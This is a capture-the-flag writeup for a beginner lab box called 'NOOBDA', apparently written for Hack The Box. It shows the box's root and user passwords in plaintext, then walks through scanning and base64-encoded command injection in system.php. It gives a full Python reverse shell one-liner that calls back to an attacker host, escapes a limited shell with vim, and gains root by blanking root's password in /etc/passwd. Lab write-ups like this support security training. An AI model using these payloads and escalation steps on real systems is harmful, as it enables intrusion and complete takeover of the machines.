



# NOOBDA

## Introduction

This box is designed to get knowledge to beginners who just wanted to try their skills on hacking. This box contains very basic suid's.

## Info for HTB

### Access

Passwords:

| User          | Password                         |
| ------------- | -------------------------------- |
| root          | ZY8PpVhqSISRPfDw                 |
| sarthak       | Sarthak_is_noob#                 |

### Key Processes

Apache is the webserver:

- default contains robots.txt
- Limited command attempts on ssh (3 command attempts per login)

FTP has a hidden file, `.hidden.txt`.

### Firewall Rules

N/A

### Docker

N/A

### Other

`limit.sh` script for Limited command attempts

# Writeup

## Enumeration

### Nmap

```
nmap -sV -T5 192.168.56.153 -p1-20000
```

```
PORT      STATE  SERVICE  VERSION
20/tcp    closed ftp-data
21/tcp    open   ftp      vsftpd 3.0.5
22/tcp    closed ssh
80/tcp    open   http     Apache httpd 2.4.52 ((Ubuntu))
18899/tcp open   ssh      OpenSSH 8.9p1 Ubuntu 3ubuntu0.1 (Ubuntu Linux; protocol 2.0)
```

We found HTTP running on it's usual port.   
Exept for SSH, SSH running on port `18899`

### Apache httpd 2.4.52

Browsing to port 80 shows us default Apache page.


### FTP

Let’s check FTP to see if there are any files, which can be enumerated using ftp command. 

```
ftp 192.168.56.153
```

Here username is as always `anonymous` and blank password

It will take a while to list contents

Always use `ls -al` command to list files and folders.



Let's download ``.hidden.txt`` file to attacker machine

```
get .hidden.txt
```

Ok now, `.hidden.txt` contains: `base64 is your best friend`


## gobuster

Let's run `gobuster`

```
gobuster dir -u 192.168.56.153 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x .txt,.php
```

` dir ` means directory brusting,   
` -u ` means url of the website,    
` -w ` means path of wordlist, In my case it is `/usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`,     
` -x ` means extentions. I used `.txt` `.php` etc.



`info.php` contains all information about the php, in this case: 


### Nikto
```
nikto -h 192.168.56.153
```
Nikto shows that there is a Remote File Inclusion (RFI) vulnerability but it is not working.

```
- Nikto v2.5.0
---------------------------------------------------------------------------
+ Target IP:          192.168.56.153
+ Target Hostname:    192.168.56.153
+ Target Port:        80
+ Start Time:         2023-03-21 20:35:25 (GMT5.5)
---------------------------------------------------------------------------
+ Server: Apache/2.4.52 (Ubuntu)
+ /: The anti-clickjacking X-Frame-Options header is not present. See: https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Frame-Options
+ /: The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type. See: https://www.netsparker.com/web-vulnerability-scanner/vulnerabilities/missing-content-type-header/
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ /: Server may leak inodes via ETags, header found with file /, inode: 29af, size: 5f73dc8f925a4, mtime: gzip. See: http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2003-1418
+ Apache/2.4.52 appears to be outdated (current is at least Apache/2.4.54). Apache 2.2.34 is the EOL for the 2.x branch.
+ OPTIONS: Allowed HTTP Methods: POST, OPTIONS, HEAD, GET .
+ /info.php: Output from the phpinfo() function was found.
+ /info.php: PHP is installed, and a test script which runs phpinfo() was found. This gives a lot of system information. See: CWE-552
+ /info.php?file=http://blog.cirt.net/rfiinc.txt: Remote File Inclusion (RFI) from RSnake's RFI list. See: https://gist.github.com/mubix/5d269c686584875015a2
+ 8102 requests: 0 error(s) and 8 item(s) reported on remote host
+ End Time:           2023-03-21 20:36:01 (GMT5.5) (36 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

```

`robots.txt` contains `?cmd=` on the very last line

let's check `system.php`.   
looks like `system.php` contains nothing, but wait then what was in the `robots.txt`, let's try that.


It shows nothing.    
But wait let's try base64 encoding, as it says `base64 is your best friend` on ftp server.
Go to any base64 encoder website you want, but I persanally recommend to use CyberChef, because it has very simple and minimal UI as well as it is powerful tool for encoding and decoding operations.

[CyberChef](https://gchq.github.io/CyberChef/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=aWQ) giives me this result for id = `aWQ=`

```
http://192.168.56.153/system.php?cmd=aWQ=
```
And boom it shows www-data user's ID


Now let's try to get which python version installed there by this command (don't forget base64)

`which python3`

```
d2hpY2ggcHl0aG9uMw==
```

Looks like Python3 is installed.

Let's try to get reverse shell 

```
export RHOST="192.168.56.142";export RPORT=4444;python3 -c 'import socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'
```

base64 of above code is: 

```
ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjU2LjE0MiI7ZXhwb3J0IFJQT1JUPTQ0NDQ7cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KChvcy5nZXRlbnYoIlJIT1NUIiksaW50KG9zLmdldGVudigiUlBPUlQiKSkpKTtbb3MuZHVwMihzLmZpbGVubygpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL3NoIikn
```

Now our url should look like this: 

```
http://192.168.56.153/system.php?cmd=ZXhwb3J0IFJIT1NUPSIxOTIuMTY4LjU2LjE0MiI7ZXhwb3J0IFJQT1JUPTQ0NDQ7cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KCk7cy5jb25uZWN0KChvcy5nZXRlbnYoIlJIT1NUIiksaW50KG9zLmdldGVudigiUlBPUlQiKSkpKTtbb3MuZHVwMihzLmZpbGVubygpLGZkKSBmb3IgZmQgaW4gKDAsMSwyKV07cHR5LnNwYXduKCIvYmluL3NoIikn
```

Start listner on port 4444

```
nc -nlvp 4444
```

And BOOM we got a reverse shell



At first spawn a [TTY](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys) shell by using python3: 

```
python3 -c "import pty; pty.spawn('/bin/bash')"
```

### Finding SUID's

```
find / -perm /4000 2>/dev/null
```

we found: 

```
/usr/bin/vim.basic
/usr/bin/sed
```

I tried to run vim but it says `bash: /usr/bin/vim: Permission denied`

let's check whats in sarthak's home folder

We found a `.secret` file and it says:
`password of sarthak is in passwd file`


Let's find passwd file by folloing command: 

```
find / -name passwd -type f 2>/dev/null
```

We got `/usr/share/passwd`

contents from `/usr/share/passwd` : `c2FydGhhayA9IFNhcnRoYWtfaXNfbm9vYiM=`

Looks like it is base64, let's decode it

```
echo c2FydGhhayA9IFNhcnRoYWtfaXNfbm9vYiM= | base64 -d
```

We found the password for sarthak `sarthak = Sarthak_is_noob#`


Now login ssh with 

```
ssh sarthak@192.168.56.153 -p 18899
```

with `Sarthak_is_noob#` password

Grab the `user.txt` flag

```
cat /home/sarthak/user.txt
```

## Privilege Escalation


The last line after we login in is ` *** You have only 3 chances *** `

Let's check the code of this file by it's location in `.bashrc` file

```
/opt/limit.sh
```

```
#!/bin/bash

MAX_C=3

CC=0
USER=$(whoami)
TERMINAL=$(tty)

echo "*** You have only $MAX_C chances ***" > "$TERMINAL"

while [ "$CC" -lt "$MAX_C"  ]
do
	read -p "$(whoami)@$(hostname):$(pwd)$ " C
	let "CC++"

	if [ "$CC" -eq "$MAX_C" ]
	then
		echo "Max commands used."
		echo "User $USER has been Terminated!"
		pkill -KILL -u $USER
		exit 0
	fi
	eval "$C"

done
```

This is the file which dosen't allow us to execute more than 3 command attempts per login 

we can easily bypass this by this by following command : 

```
vim -c "!sh" 
```

Now we have full control of using unlimited commands as user sarthak.

```
find / -perm /4000 2>/dev/null
```

again same results 

```
/usr/bin/vim.basic
/usr/bin/sed
```

But now this time we can also edit files on behalf of root user: 

```
vim /etc/passwd
```

remove `x` from root.	
It should looke like this:

```
root::0:0:root:/root:/bin/bash
```

To save file use:  

```
wq!
```

```
su root
```

```
cat /root/root.txt
```
